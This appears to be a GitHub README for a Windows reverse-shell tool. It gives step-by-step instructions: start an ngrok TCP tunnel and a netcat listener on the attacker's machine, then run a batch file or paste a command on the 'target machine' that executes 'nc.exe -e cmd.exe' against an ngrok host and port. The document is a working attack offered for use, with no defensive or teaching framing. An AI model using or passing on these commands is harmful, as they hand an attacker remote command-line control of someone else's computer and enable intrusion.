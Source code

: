 # Simple-Reverse-Shell-Windows
Simple reverse shell Windows CMD with Netcat and Ngrok

# How To Use
  For example:
      On Remote Machine:
  1. run "ngrok tcp 6969"
  2. run netcat "nc -lvnp 6969"
  
      On target machine Windows:
  1. edit RShell.bat and put your ngrok ip and port, should be like this "....\\nc.exe -e cmd.exe 0.tcp.ngrok.io 27384"
  2. Then run RShell.bat on your target machine. 


     OR YOU CAN JUST COPY THE COMMAND AND PASTE ON CMD/POWERSHELL :)
     
